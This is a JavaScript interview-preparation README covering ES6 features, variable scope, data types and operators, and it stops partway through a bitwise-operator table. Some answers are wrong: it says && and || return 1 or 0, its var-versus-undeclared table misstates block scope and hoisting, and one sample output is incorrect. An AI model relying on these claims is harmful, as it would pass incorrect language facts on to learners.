# JavaScript Basics

> *Click &#9733; if you like the project. Your contributions are heartily ♡ welcome.*

<br>

## Related Topics

* *[HTML Basics](https://github.com/learning-zone/html-basics)*
* *[CSS Basics](https://github.com/learning-zone/css-basics)*
* *[JavaScript ES6 Basics](https://github.com/learning-zone/javascript-es6-basics)*
* *[JavaScript Unit Testing](https://github.com/learning-zone/javascript-unit-testing)*
* *[JavaScript Coding Practice](js-cp.md)*
* *[JavaScript Program Writing](js-pw.md)*
* *[JavaScript Multiple Choice Questions](js-mcq.md)*
* *[JavaScript Design Patterns](https://github.com/learning-zone/javascript-design-patterns)*
* *[Data Structure in JavaScript](https://github.com/learning-zone/javascript-data-structure)*

<br>

## Table of Contents

## L1: Fundamental (Entry-Level / Junior)
Focus: Syntax, basic logic, and standard data handling.

* [Introduction](#-1-introduction): ES6 new features
* [Variables](#-2-variables): var, let, const.
* [Data Types](#-3-data-types): Primitives vs. Objects.
* [Operators](#-4-operators): Arithmetic, comparison (== vs ===), and logical.
* [Numbers](#-5-numbers): isNaN, isFinite, NEGATIVE_INFINITY 
* [String](#-6-string): slice, splice, trim, eval, replace
* [Arrays](#-7-array): Basic manipulation using push(), pop(), shift, indexOf etc.
* [Control Flow](#-8-control-flow): Simple if/else and for loops.
* [Functions](#-9-functions): Standard declarations and parameters.  

## L2: Intermediate (Junior-Mid / Developer)
Focus: ES6+ features, DOM, and common "trick" concepts.

* [Scope & Closures](#-10-scope--closures): Understanding block scope and lexical scoping.
* [Hoisting](#-11-hoisting): Variable and function declarations.
* [ES6 Features](#-12-es6-features): Arrow functions, template literals, and destructuring.
* [DOM & Events](#-13-dom--events): Selecting elements, adding listeners, and event bubbling.
* [Regular Expressions](#-14-regular-expression): Basic pattern matching using RegExp.
* [Error Handling](#-15-error-handling): Using try...catch.
* [Web Storage](#-16-web-storage): localStorage and sessionStorage.  

## L3: Advanced (Mid-Senior / Lead)
Focus: Asynchronous operations, performance, and internal engine mechanics. [4] 

* [Promises](#-17-promises): Promise, PromiseAll, PromiseRace
* [Async & Await](#-18-async--await): Handling complex asynchronous flows.
* [Event Loop](#-19-event-loop): Understanding the microtask vs. macrotask queue.
* [this Keyword](#-20-this-keyword): Binding with .call(), .apply(), and .bind().
* [Objects & Prototypes](#-21-objects--prototypes): Prototypal inheritance and the prototype chain.
* [Functional Programming](#-22-functional-programming): High-order functions like map, filter, and reduce.
* [Classes](#-23-classes): Inheritance, constructors, and static methods.
* [Collections](#-24-collections): Map, Set, WeakMap, WeakSet
* [Modules](#-25-modules): ES Modules (import/export). 
   
## L4: Expert (Senior / Architect)
Focus: Scalability, security, and low-level optimization.

* [Performance Optimization](#-26-performance-optimization): Memoization, debouncing/throttling, and avoiding memory leaks.
* [Design Patterns](#-27-design-patterns): Singleton, Factory, and Pub-Sub patterns.
* [Security](#-28-security): Preventing XSS, CSRF, and secure data handling.
* [Browser Internals](#-29-browser-performance): Rendering behavior, reflows, and repaints.
* [Progressive Web Apps (PWA)](#-30-progressive-web-apps-pwa): Service workers and caching strategies.
* [Complex Problem Solving](#-31-complex-problem-solving): Coding simulators for real-world algorithmic tasks.

## L5: Technical Lead
Focus: Code review, team standards, architectural decisions, and engineering best practices for leading a development team.

* [Code Review & Standards](#-32-code-review--standards): Identifying anti-patterns, enforcing conventions, and reviewing PRs.
* [Async Strategy & Team Patterns](#-33-async-strategy--team-patterns): Choosing and enforcing async patterns across a codebase.
* [Module Architecture](#-34-module-architecture): Organizing modules, barrel files, and dependency management.
* [Error Handling Strategy](#-35-error-handling-strategy): Centralized error handling and observability.
* [Performance Review](#-36-performance-review): Reviewing code for layout thrashing, memory leaks, and bundle size.

## L6: Technical Architect
Focus: System-level design, scalability, security posture, micro-frontend, and cross-team JavaScript architecture.

* [Micro-Frontend Architecture](#-37-micro-frontend-architecture): Module federation, iframe isolation, and shared dependencies.
* [Bundle & Runtime Optimization](#-38-bundle--runtime-optimization): Tree-shaking, code-splitting, and Web Workers.
* [Security Architecture](#-39-security-architecture): CSP headers, CORS configuration, and supply chain security.
* [State Management at Scale](#-40-state-management-at-scale): Choosing state patterns for large distributed frontend teams.
* [Migration & Evolution](#-41-migration--evolution): Framework migrations, progressive TypeScript adoption, and API versioning.
* [Miscellaneous](#-42-miscellaneous):

<br>

## L1: Fundamental (Entry-Level / Junior)

<br>

## # 1. Introduction

<br>

## Q. List out important features of JavaScript ES6?

**1. Template Strings:**

Template literals are string literals allowing embedded expressions.

**Benefits:**

* String interpolation
* Embedded expressions
* Multiline strings without hacks
* String formatting
* String tagging for safe HTML escaping, localization and more

```js
// String Substitution
let name = `Abhinav Sharma`;
console.log(`Hi, ${name}`); // Output: "Hi, Abhinav Sharma"

// Multiline String
let msg = `Hello \n
World`;
console.log(`${msg}`); // Output: "Hello World"
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-template-strings-dwj699?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**2. Spread Operator:**

Spread operator allows iterables( arrays / objects / strings ) to be expanded into single arguments/elements. 

```js
function sum(x, y, z) {
  return x + y + z;
}
const numbers = [10, 20, 30];

// Using Apply (ES5)
console.log(sum.apply(null, numbers)); // 60

// Using Spread Operator
console.log(sum(...numbers)); // 60
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-spread-operator-25tmcf?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**2.1. Copying an array:**

```js
const fruits = ["Apple", "Orange", "Banana"];
const newFruitArray = [...fruits];

console.log(newFruitArray); 
```

Output:

```js
['Apple', 'Orange', 'Banana']
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-spread-operator-wy1q0l?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**2.2. Concatenating arrays:**  

```js
const arr1 = ["A", "B", "C"];
const arr2 = ["X", "Y", "Z"];

const result = [...arr1, ...arr2];

console.log(result); 
```

Output:

```js
['A', 'B', 'C', 'X', 'Y', 'Z']
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-spread-operator-m7v6gg?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**2.3. Spreading elements together with an individual element:**

```js
const fruits = ["Apple", "Orange", "Banana"];
const newFruits = ["Cherry", ...fruits];

console.log(newFruits); 
```

Output:

```js
['Cherry', 'Apple', 'Orange', 'Banana']
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-spread-operator-16l7oh?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**2.4. Spreading elements on function calls:**

```js
const fruits = ["Apple", "Orange", "Banana"];

const getFruits = (f1, f2, f3) => {
  console.log(`Fruits: ${f1}, ${f2} and ${f3}`);
};

getFruits(...fruits); 
```

Output:

```js
Fruits: Apple, Orange and Banana
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-spread-operator-jdhoe6?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**2.5. Spread syntax for object literals:**

```js
const obj1 = { id: 101, name: 'Rajiv Sandal' }
const obj2 = { age: 35, country: 'INDIA' }

const employee = { ...obj1, ...obj2 }

console.log(employee);
```

Output:

```js
{
  "id": 101,
  "name": "Rajiv Sandal",
  "age": 35,
  "country": "INDIA"
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**3. Sets:**  

Sets are a new object type with ES6 (ES2015) that allow to create collections of unique values. The values in a set can be either simple primitives like strings or integers, but more complex object types like object literals or arrays can also be part of a set.

```js
const numbers = new Set([10, 20, 20, 30, 40, 50]);

console.log(numbers); Set(5) { 10, 20, 30, 40, 50 }
console.log(typeof numbers); // Object
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-sets-chwvp0)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**4. Default Parametrs:**

```js
function add(x = 10, y = 20) {
  console.log(x + y);
}

add(10, 30); // Output: 10 + 30 = 40
add(15); // Output: 15 + 20 = 35
add(); // Output: 10 + 20 = 30

```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-default-parametrs-tjw9uk?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**5. repeat():**  

The `repeat()` method constructs and returns a new string which contains the specified number of copies of the string on which it was called, concatenated together.

```js
const msg = "Hello World \n";

console.log(`${msg.repeat(3)}`);
```

Output:

```js
Hello World
Hello World
Hello World
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-repeat-d3ko3z?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**6. Arrow Function (=>):**

```js
const add = (x, y) => x + y;

console.log(add(10, 20)); // 30
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-arrow-function-ejlrmf?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**7. Arrow function with `this`**

```js
/**
 * Using Arrow function
 */
const person = {
  name: "Diksha",
  actions: ["bike", "hike", "ski"],
  printActions() {
    this.actions.forEach((action) => {
      console.log(this.name + " likes to " + action);
    });
  },
};

person.printActions();
```

Output:

```js
Diksha likes to bike 
Diksha likes to hike 
Diksha likes to ski
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-arrow-function-kh1v84?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**8. Destructing Assignment:**

```js
// Destructing Assignment
const { title, price, description } = {
  title: "iPhone",
  price: 999,
  description: "The iPhone is a smartphone developed by Apple"
};

console.log(title); // iPhone
console.log(price); // 999
console.log(description); // The iPhone is a smartphone developed by Apple
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-destructing-assignment-0c0fzl?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**9. Generators:**  

A generator is a function that can stop midway and then continue from where it stopped. In short, a generator appears to be a function but it behaves like an `iterator`.

```js
function* generator(num) {
  yield num + 10;
  yield num + 20;
  yield num + 30;
}
const gen = generator(10);

console.log(gen.next().value); // 20
console.log(gen.next().value); // 30
console.log(gen.next().value); // 40
```  

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-generators-pboss2?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**10. Symbols:**  

They are tokens that serve as unique IDs. We create symbols via the factory function Symbol(). Symbols primary use case is for making private object properties, which can be only of type String or Symbol (Numbers are automatically converted to Strings).

```js
const symbol1 = Symbol();
const symbol2 = Symbol(42);
const symbol3 = Symbol("Hi");

console.log(typeof symbol1); // symbol
console.log(symbol3.toString()); // Symbol(Hi)
console.log(Symbol("Hi") === Symbol("Hi")); // false
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-symbols-5oedjv?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

**11. Iterator:**  
  
The iterable is a interface that specifies that an object can be accessible if it implements a method who is key is `[symbol.iterator]`.

```js
const title = "ES6";
const iterateIt = title[Symbol.iterator]();

console.log(iterateIt.next().value); //output: E
console.log(iterateIt.next().value); //output: S
console.log(iterateIt.next().value); //output: 6
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-iterator-ceqbrw?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 2. VARIABLES

<br>

## Q. What are global variables?

Global variables are declared outside of a function or declared with a window object for accessibility throughout the program (unless shadowed by locals). If you declare a variable without using var, even if it\'s inside a function, it will still be seen as global.

The `var` **statement** declares a function-scoped or globally-scoped variable, optionally initializing it to a value.

**Example:**

```js
var x = 10;

if (x === 10) {
  var x = 20;

  console.log(x); // expected output: 20
}

console.log(x); // expected output: 20
```

**Example:** Declaring global variable within function

```js
window.value = 90;

// Declaring global variable by window object
function setValue() {
  window.value = 100;
}

// Accessing global variable from other function
function getValue() {
  setValue();
  return window.value;
}

console.log(getValue()); // 100
```

**Using Undeclared Variables:**

* In strict mode, if you attempt to use an undeclared variable, you\'ll get a reference error when you run your code. 
* Outside of strict mode, however, if you assign a value to a name that has not been declared with `let`, `const`, or `var`, you\'ll end up creating a new global variable. It will be global no matter how deeply nested within functions and blocks your code is, which is almost certainly not what you want, is bug-prone, and is one of the best reasons for using strict mode!
* Global variables created in this accidental way are like global variables declared with `var`: they define properties of the global object. But unlike the properties defined by proper var declarations, these properties can be deleted with the delete operator.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-global-variables-b4isqk?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are template literals in es6?

Template literals help make it simple to do string interpolation, or to include variables in a string.

```js
const person = { name: 'Tyler', age: 28 };

console.log(`Hi, my name is ${person.name} and I am ${person.age} years old!`);
// 'Hi, my name is Tyler and I am 28 years old!'
```

Template literals, however, preserve whatever spacing you add to them. For example, to create that same multi-line output that we created above, you can simply do:

```js
console.log(`This is line one.
This is line two.`);
// This is line one.
// This is line two.
```

Another use case of template literals would be to use as a substitute for templating libraries for simple variable interpolations:

```js
const person = { name: 'Tyler', age: 28 };

document.body.innerHTML = `
  <div>
    <p>Name: ${person.name}</p>
    <p>Name: ${person.age}</p>
  </div>
`
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the differences between variables created using `let`, `var` or `const`?

Variables declared using the `var` keyword are scoped to the function in which they are created, or if created outside of any function, to the global object. `let` and `const` are _block scoped_, meaning they are only accessible within the nearest set of curly braces (function, if-else block, or for-loop).

```js
/**
 * All variables are accessible within functions.
 */
function variableScope() {

  var x = 10;
  let y = 20;
  const z = 30;

  console.log(x); // 10
  console.log(y); // 20
  console.log(z); // 30
}

console.log(x); // ReferenceError: x is not defined
console.log(y); // ReferenceError: y is not defined
console.log(z); // ReferenceError: z is not defined

variableScope();
```

```js
/**
 * var declared variables are accessible anywhere in the function scope.
 */
if (true) {
  var a = 10;
  let b = 20;
  const c = 30;
}

console.log(a); // 10
console.log(b); // ReferenceError: b is not defined
console.log(c); // ReferenceError: c is not defined
```

`var` allows variables to be hoisted, meaning they can be referenced in code before they are declared. `let` and `const` will not allow this, instead throwing an error.

```js
console.log(a); // undefined
var a = 'foo';

console.log(b); // ReferenceError: can\'t access lexical declaration 'b' before initialization
let b = 'baz';

console.log(c); // ReferenceError: can\'t access lexical declaration 'c' before initialization
const c = 'bar';
```

Redeclaring a variable with `var` will not throw an error, but 'let' and 'const' will.

```js
var a = 'foo';
var a = 'bar';
console.log(a); // "bar"

let b = 'baz';
let b = 'qux'; // Uncaught SyntaxError: Identifier 'b' has already been declared
```

`let` and `const` differ in that `let` allows reassigning the variable\'s value while `const` does not.

```js
// This is ok.
let a = 'foo';
a = 'bar';
console.log(a); // bar

// This causes an exception.
const b = 'baz';
b = 'qux';
console.log(b) // TypeError: Assignment to constant variable.
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-variables-declaration-fmrkjz?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of double exclamation?

The double exclamation mark (`!!`) in JavaScript forces any value into its corresponding strict boolean representation (`true` or `false`). The `!!` (double negation) operator converts any value to its boolean equivalent:

* First `!` negates the value (converting it to a boolean)
* Second `!` negates it again, giving the true boolean representation

**Example**:

```js
console.log(!!0);         // false
console.log(!!"");        // false
console.log(!!null);      // false
console.log(!!undefined); // false
console.log(!!NaN);       // false

console.log(!!1);         // true
console.log(!!"text");    // true
console.log(!!{});        // true
console.log(!![]);        // true
```

**Note**: It\'s commonly used to explicitly cast a value to boolean without using `Boolean(value)`.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. In JavaScript, what is the difference between `var x = 1` and `x = 1`?

The primary difference is that `var x = 1` explicitly declares a function-scoped or globally-scoped variable, whereas `x = 1` assigns a value to an identifier without declaring it, which can lead to global scope pollution or runtime errors depending on your code\'s strictness mode

`var x = 1`:

* Allowed in 'strict mode'.
* The var statement declares a function-scoped or globally-scoped variable, optionally initializing it to a value.
* Variables declared using `var` inside a `{ }` block can be accessed from outside the block.
* Variables defined using `var` inside a function are not accessible (visible) from outside the function.
* Duplicate variable declarations using `var` will not trigger an error, even in strict mode, and the variable will not lose its value unless another assignment is performed.

**Example**:

```js
var x = 1;

if (x === 1) {
  var x = 2;

  console.log(x); // expected output: 2
}

console.log(x); // expected output: 2
```

```js
var x = 5; // global
function someThing(y) {
  var x = 3; // local
  var z = x + y;
  console.log(z);
}
someThing(4); // 7
console.log(x); // 5
```

`x = 1`:

* Not allowed in 'strict mode'.
* Undeclared Variables like: `x = 1` is accessible in: (Block scope - Function scope - Global scope)
* Outside of strict mode, however, if you assign a value to a name that has not been declared with `let`, `const`, or `var`, you\'ll end up creating a new global variable. It will be global no matter how deeply nested within functions and blocks your code is, which is almost certainly not what you want, is bug-prone, and is one of the best reasons for using strict mode!
* Global variables created in this accidental way are like global variables declared with `var` they define properties of the global object.
* Unlike the properties defined by proper `var` declarations, these properties can be deleted with the delete operator.
* Not recommended.

**Example**:

```js
var x = 5; // global
function someThing(y) {
  x = 1; // still global!
  var z = x + y;
  console.log(z);
}
someThing(4) // 5
console.log(x) // 1
```

**Example:**

```js
{
  console.log(x + y); // NaN
  var x = 1;
  var y = 2;
}
```

```js
{
  console.log(x + y); // Uncaught ReferenceError: x is not defined
   x = 1;
   y = 2;
}
```

<br>

|               | var x = 1 | x = 1 |
|:---:          | :---:     | :---:|
|Strict mode    | &#10004;  | &#10060; |
|Block scope    | &#10060;  | &#10004; |
|Function scope | &#10004;  | &#10004; |
|Global scope   | &#10004;  | &#10004; |
|Hoisting       | &#10004;  | &#10060; |
|Reassigning    | &#10004;  | &#10004; |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you assign default values to variables?

In JavaScript, you can assign default values to variables using several modern and legacy approaches, depending on the exact conditions you want to check.

**1. OR operator (`||`)**

```js
let name = userInput || "Default";
// Uses "Default" if userInput is falsy (0, "", null, undefined, false)
```

**2. Nullish coalescing (`??`)** *(preferred)*

```js
let name = userInput ?? "Default";
// Uses "Default" only if userInput is null or undefined (not 0 or "")
```

**3. Destructuring defaults**

```js
const { name = "John", age = 25 } = user;
const [first = 0, second = 0] = arr;
```

**4. Function parameter defaults**

```js
function greet(name = "World") {
  return `Hello, ${name}!`;
}
greet();        // "Hello, World!"
greet("Alice"); // "Hello, Alice!"
```

**5. Logical OR assignment (`||=`)**

```js
let x = null;
x ||= "default"; // x = "default"
```

**6. Nullish assignment (`??=`)**

```js
let x = 0;
x ??= "default"; // x stays 0 (not null/undefined)
```

**Key difference between `||` and `??`:**

```js
let count = 0;
count || 10;  // 10  — 0 is falsy, so falls back
count ?? 10;  // 0   — 0 is not null/undefined, so keeps it
```

**Note:** Use `??` when `0`, `""`, or `false` are valid values.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the precedence order between local and global variables?

**Local variables always take precedence over global variables** within their scope.

```js
let x = "global";

function example() {
  let x = "local";
  console.log(x); // "local" — local shadows the global
}

example();
console.log(x); // "global" — unchanged
```

**Scope chain** — JavaScript looks up variables from innermost to outermost:

```js
let x = "global";

function outer() {
  let x = "outer";

  function inner() {
    let x = "inner";
    console.log(x); // "inner"
  }

  inner();
  console.log(x); // "outer"
}

outer();
console.log(x); // "global"
```

**If no local variable exists, it walks up the chain:**

```js
let x = "global";

function example() {
  console.log(x); // "global" — no local x, found in outer scope
}
```

**Shadowing pitfall:**

```js
let x = "global";

function example() {
  console.log(x); // ReferenceError (TDZ) — let/const are hoisted but not initialized
  let x = "local";
}
```

**Precedence order (innermost → outermost):**

1. Local (block/function) scope
2. Enclosing/closure scopes
3. Module scope
4. Global scope (`window` / `globalThis`)

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-precedence-n1ve75?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is variable shadowing in javascript?

Variable shadowing occurs when a variable declared within a certain scope (decision block, method, or inner class) has the same name as a variable declared in an outer scope. This outer variable is said to be shadowed.

If there is a variable in the global scope, and you\'d like to create a variable with the same name in a function. The variable in the inner scope will temporarily shadow the variable in the outer scope.

**Example:**

```js
let x = "global";

function example() {
  let x = "local"; // shadows the global x
  console.log(x);  // "local"
}

example();
console.log(x); // "global" — outer x is unaffected
```

**Block-level shadowing (`let`/`const`):**

```js
let msg = "outside";

if (true) {
  let msg = "inside"; // shadows outer msg
  console.log(msg);   // "inside"
}

console.log(msg); // "outside"
```

**`var` does NOT shadow at block level** (only at function level):

```js
var msg = "outside";

if (true) {
  var msg = "inside"; // overwrites, not shadows!
  console.log(msg);   // "inside"
}

console.log(msg); // "inside" — original was overwritten!
```

**Nested function shadowing:**

```js
let value = 1;

function outer() {
  let value = 2;        // shadows global

  function inner() {
    let value = 3;      // shadows outer
    console.log(value); // 3
  }

  inner();
  console.log(value);   // 2
}

outer();
console.log(value);     // 1
```

**Note:**

- Shadowing does **not** modify the outer variable
- `let`/`const` shadow at block level; `var` only at function level
- Can cause bugs when unintentional — use distinct variable names to avoid confusion

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is scope chain in javascript?

The **scope chain** is the mechanism JavaScript uses to resolve variable references by searching through nested scopes from innermost to outermost until the variable is found (or a `ReferenceError` is thrown).

**Example:**:

```js
let globalVar = "I'm a global variable";

function outer() {
  let outerVar = "I'm an outer variable";

  function inner() {
    let innerVar = "I'm an inner variable";
    console.log(innerVar); // "I'm an inner variable"
    console.log(outerVar); // "I'm an outer variable"
    console.log(globalVar); // "I'm a global variable"
  }

  inner();
}

outer();
```

**Note:**

* The chain is created at **function definition time** (lexical scoping), not at call time
* It only goes **outward** — outer scopes cannot access inner variables
* Closures work because inner functions retain a reference to their outer scope chain

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 3. DATA TYPES

<br>

## Q. What are data types in javascript?

There are eight basic data types in JavaScript.

|Data Types	  | Description	                         |Example                     |
|-------------|--------------------------------------|----------------------------|
|String	      |Represents textual data	             |let str = 'Hi', let str2 = "Hello", let str3 = \`Hello World\`|
|Number	      |An integer or a floating-point number |let num = 3, let num2 = 3.234, let num3 = 3e-2 |
|BigInt	      |An integer with arbitrary precision	 |let num = 900719925124740999n, let num = 1n    |
|Boolean	    |Any of two values: true or false	     |let flag = true             |
|undefined	  |A data type whose variable is not initialized	|let a;             |
|null	        |Denotes a null value	                 |let a = null;               |
|Symbol	      |Data type whose instances are unique and immutable|let value = Symbol('hello');|
|Object	      |key-value pairs of collection of data	|let student = { };         |

**String:**

`String` is used to store text. In JavaScript, strings are surrounded by quotes:

* Single quotes: 'Hello'
* Double quotes: "Hello"
* Backticks: \`Hello\`

**Example:**:

```js
// Strings
const firstName = "Mukul";
const lastName = "Mittal";
const result = `Name: ${firstName} ${lastName}`;

console.log(result); // Name: Mukul Mittal

console.log(typeof result); // string
```

**Number:**

Number represents integer and floating numbers (decimals and exponentials). A number type can also be `+Infinity`, `-Infinity`, and `NaN` (not a number).

```js
const number1 = 3;
const number2 = 3.433;
const number3 = 3e5; // 3 * 10^5

const number4 = 3 / 0;
console.log(number4); // Infinity
console.log(typeof number4) // number

const number5 = -3 / 0;
console.log(number5); // -Infinity
console.log(typeof number5); // number

// strings can\'t be divided by numbers
const number6 = "abc" / 3;
console.log(number6); // NaN
console.log(typeof number6); // number
```

**BigInt:**

In JavaScript, Number type can only represent numbers less than (2<sup>53</sup> - 1) and more than -(2<sup>53</sup> - 1). However, if you need to use a larger number than that, you can use the BigInt data type.

A BigInt number is created by appending `n` to the end of an integer.

```js
// BigInt value
const num1 = 100000000000000000n;
const num2 = 1000000000000000000n;
const num3 = 10;

// Adding two big integers
const result1 = num1 + num2;
console.log(result1); // "1100000000000000000n"
console.log(typeof result1); // bigint

// Error! BitInt and number cannot be added
const result2 = num1 + num2 + num3;
console.log(result2); // Uncaught TypeError: Cannot mix BigInt and other types
console.log(typeof result2); // Uncaught TypeError: Cannot mix BigInt and other types
```

**Boolean:**

This data type represents logical entities. Boolean represents one of two values: `true` or `false`. 

```js
const dataChecked = true;
const valueCounted = false;
```

**undefined:**

The undefined data type represents value that is not assigned. If a variable is declared but the value is not assigned, then the value of that variable will be undefined. 

```js
let name;
console.log(name); // undefined

let name = undefined;
console.log(name); // undefined
```

**null:**

In JavaScript, `null` is a special value that represents empty or unknown value.

```js
const number = null;
```

**Symbol:**

A value having the data type Symbol can be referred to as a symbol value. Symbol is an immutable primitive value that is unique.

```js
// Two symbols with the same description

const value1 = Symbol('hello');
const value2 = Symbol('hello');

let result = (value1 === value2) ? true : false;  // false;

// Note: Though value1 and value2 both contain 'hello', they are different as they are of the Symbol type.
```

**Object:**

An object is a complex data type that allows us to store collections of data. 

```js
const employee = {
    firstName: 'John',
    lastName: 'K',
    email: 'john.k@gmail.com'
};
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is `undefined` property?

The undefined property indicates that a variable has not been assigned a value, or not declared at all. The type of undefined value is undefined too.

```js
var user;    // Value is undefined, type is undefined
console.log(typeof(user)) //undefined
```

Any variable can be emptied by setting the value to undefined.

```js
user = undefined
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between `null` vs `undefined`?

**Null:**

`Null` means an empty or non-existent value. Null is assigned, and explicitly means nothing.

```js
var test = null;
console.log(test); // null
```

`null` is also an object. Interestingly, this was actually an error in the original JavaScript implementation:

```js
console.log(typeof test); // object
```

**Undefined:**

Undefined means a variable has been declared, but the value of that variable has not yet been defined. For example:

```js
var test2;
console.log(test2); // undefined
```

Unlike null, undefined is of the type undefined:

```js
console.log(typeof test2); // undefined
```

**Difference:**

| Null | Undefined |
|---- | -----------|
| It is an assignment value which indicates that variable points to no object.  | It is not an assignment value where a variable has been declared but has not yet been assigned a value. |
| Type of null is object | Type of undefined is undefined  |
| The null value is a primitive value that represents the null, empty, or non-existent reference. | The undefined value is a primitive value used when a variable has not been assigned a value.|
| Indicates the absence of a value for a variable | Indicates absence of variable itself |
| Converted to zero (0) while performing primitive operations | Converted to NaN while performing primitive operations |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Coercion in JavaScript?

Type coercion is the automatic or implicit conversion of values from one data type to another (such as strings to numbers). Type conversion is similar to type coercion because they both convert values from one data type to another with one key difference — type coercion is implicit whereas type conversion can be either implicit or explicit.

**Example:**

```js
const value1 = '10';
const value2 = 20;

let sum = value1 + value2;

console.log(sum);
```

In the above example, JavaScript has coerced the 10 from a number into a string and then concatenated the two values together, resulting in a string of 1020. JavaScript had a choice between a string or a number and decided to use a string.

```js
// Example of explicit coercion
const value1 = '10';
const value2 = 20;

let sum = Number(value1) + value2;

console.log(sum);
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 4. OPERATORS

<br>

## Q. What are various operators supported by javascript?

An operator is capable of manipulating (mathematical and logical computations) a certain value or operand. There are various operators supported by JavaScript as below,

**Arithmetic Operators:**

Arithmetic operators are used to perform mathematical operations between numeric operands.

|Operators|Description             | Example ( say `let x = 10, y = 20;`) |
|--------|------------------------|-------------|
| +      |Adds two numeric operands.| x + y     |
| -      |Subtract right operand from left operand| y - x|
| *      |Multiply two numeric operands.| x * y|
| /      |Divide left operand by right operand.| y / x|
| %      |Modulus operator. Returns remainder of two operands.| x % 2|
| ++     |Increment operator. Increase operand value by one.| x++|
| --     |Decrement operator. Decrease value by one.| x--|

**Comparison Operators:**

JavaScript provides comparison operators that compare two operands and return a boolean value `true` or `false`.

|Operators|	Description|
|---------|-------------|
|==       |Compares the equality of two operands without considering type.|
|===      |Compares equality of two operands with type.|
|!=       |Compares inequality of two operands.|
|>        |Returns a boolean value true if the left-side value is greater than the right-side value; otherwise, returns false.|
|<        |Returns a boolean value true if the left-side value is less than the right-side value; otherwise, returns false.|
|>=       |Returns a boolean value true if the left-side value is greater than or equal to the right-side value; otherwise, returns false.|
|<=       |Returns a boolean value true if the left-side value is less than or equal to the right-side value; otherwise, returns false.|

**Logical Operators:**

The logical operators are used to combine two or more conditions.

**1. &&** - is known as AND operator. It checks whether two operands are non-zero or not (0, false, undefined, null or "" are considered as zero). It returns 1 if they are non-zero; otherwise, returns 0

**2. ||** - is known as OR operator. It checks whether any one of the two operands is non-zero or not (0, false, undefined, null or "" is considered as zero). It returns 1 if any one of of them is non-zero; otherwise, returns 0.

**3. !** - is known as NOT operator. It reverses the boolean result of the operand (or condition). !false returns true, and !true returns false.

**Assignment Operators:**

The assignment operators to assign values to variables with less key strokes.

|Operators | Description  |
|----|--------------------|
|=   |Assigns right operand value to the left operand.|
|+=  |Sums up left and right operand values and assigns the result to the left operand.|
|-=  |Subtract right operand value from the left operand value and assigns the result to the left operand.|
|*=  |Multiply left and right operand values and assigns the result to the left operand.|
|/=  |Divide left operand value by right operand value and assign the result to the left operand.|
|%=  |Get the modulus of left operand divide by right operand and assign resulted modulus to the left operand.|

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the bitwise operators available in javascript?

Below are the list of bit-wise logical operators used in JavaScript

|Operator	   |  Usage	      |   Description    |
|------------|---------|-----------------------|
